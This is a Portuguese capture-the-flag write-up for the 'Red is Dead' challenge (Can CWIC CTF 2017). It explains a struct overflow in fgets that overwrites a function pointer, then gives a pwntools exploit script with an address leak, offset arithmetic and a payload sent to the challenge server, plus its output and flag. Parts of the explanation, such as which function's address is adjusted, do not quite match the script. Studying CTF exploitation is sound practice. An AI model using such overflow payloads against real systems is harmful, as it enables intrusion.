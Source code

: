 ```yaml
---
title:  "Red is Dead - Can CWIC CTF 2017"
date:   2017-10-14 10:47:06
categories: [write-ups]
tags: [Can CWIC CTF 2017]
---
```

Analisando a estrutura `user` nós se depara com uma variável color [8 bytes], uma variável name [8 bytes] e um ponteiro [8 bytes]
sendo uma estrutura de 24 bytes em sistemas 64 bits

``` c
struct user {
    char color[8];
    char name[8];
    void (*next)(struct user*);
};
```

linha 17 a  20 não importa para nós, vamos pular e ir para as funções `success_knight` e `sucess_king`.
``` c
void success_knight(struct user *user) {
    printf("Keeper: Right. Off you go.\n");
    user->next = NULL;
}

void success_king(struct user *user) {
    printf("Keeper: What? I don't know that! Auuuuuuuugh!\n");
    printf("FLAG\n");
    user->next = NULL;
}
```
temos duas funções, uma sucess_knight e uma success_king, essa foi fácil, a função success king é a função final ontem entrega a
flag, e a função success_knight é apenas um caminho que não vai da em nada, então descartamos ela!

vamos para proxima função `check_knight`.
``` c
void check_knight(struct user *user) {
    user->next = success_knight;
    printf("Keeper: What is your favorite color?\n");
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    if (strcmp(user->color,"red")) {
        user->next = dead;
    }
}
```
Observando a linha 36 me deparei com um overflow
``` c
char *res = fgets(user->color, sizeof(struct user), stdin);
```
Aqui ele tá usando o sizeof para pegar a quantidade de bytes da estrutura user e definir
na variável color, ou seja, o que era 8 bytes agr virou 24 bytes!, o que isso nos ajudará?
poderemos fazer um buffer overflow que nos retornará alguns vazamentos de endereços

``` c
void check_king(struct user *user) {
    user->next = success_king;
    printf("Keeper: What is the air-speed velocity of an unladen swallow?\n");
    printf("%s: What do you mean?\n", user->name);
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
    }
}
```

``` c
void start(struct user *user) {
    printf("Keeper: Stop! What is your name?\n");
    char *res = fgets(user->name, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->name);

    size_t len = strlen(user->name);
    if (len < 2) { printf("Keeper: Sorry `%s', your name is too short\n", user->name);
        user->next = NULL;
        return;
    }

    if(!strncmp(user->name, "Arthur", 6)) {
        user->next = check_king;
        printf("Arthur: It is Arthur, King of the Britons.\n");
    } else {
        user->next = check_knight;
        printf("%s: Sir %s of Camelot.\n", user->name, user->name);
    }
}
```

Bem, Nós poderia começar com o nome `Arthur` e nós iria para ``check_king`` nós realizaríamos a substituição do usuário-> seguinte, mas então não havia como para superar o seguinte check!

então nós iria para `user->next = success_king;` que nos daria a flag, foi o que eu pensei, porém, not so easy!

``` c
chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
```

Para nós ir para o success king isso era impossível, pois o comprimento da string era [31 bytes] era maior do que o número de bytes para a cor (24), portanto, o strcmp sempre retornaria verdadeiro (as strings não coincidem) e o usuário-> próximo seria configurado para morto.

Portanto o check correto é o `check_knight`
``` c
if (strcmp(user->color,"red")) {
    user->next = dead;
}
```

Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
agora vamos ajeitar o caminho do `success_king`

Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`

`000000000040084e g     F .text  000000000000002e              success_king`
`000000000040082a g     F .text  0000000000000024              success_knight`

Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra

``` python
>>> hex (0x000000000040084e - 0x000000000040082a)
'0x25'
>>> 0x25
37
```

Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
tendo tudo que precisamos, é hora do solve

```
from pwn import *
import struct
import time

def p(x):
    return struct.pack("<q", x)

addr = 0
offset = -37

r = remote('159.203.38.169', 5683)
r.recv(1024)

print("[*] Triggering leak...")
r.send('knightAA' + '\n')
time.sleep(0.3)

print("[*] Retrieving address of check_knight...")
resp = r.recv(1024).strip()
addr = resp[8:14] + '\x00\x00'
addr = struct.unpack("<q", addr)[0]

print("[*] Calculating address of success_king...")
addr += offset

print("[*] Calling success_king...")
r.send('red\0' + '0x00' + '0x000000' + p(addr))
time.sleep(0.3)

resp = r.recv(1024)
print(resp[resp.find('FLAG'):])
r.close()
```

```
[+] Opening connection to 159.203.38.169 on port 5683: Done
[*] Triggering leak...
[*] Retrieving address of check_knight...
[*] Calculating address of success_king...
[*] Calling success_king...
`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`

[*] Closed connection to 159.203.38.169 port 5683
```

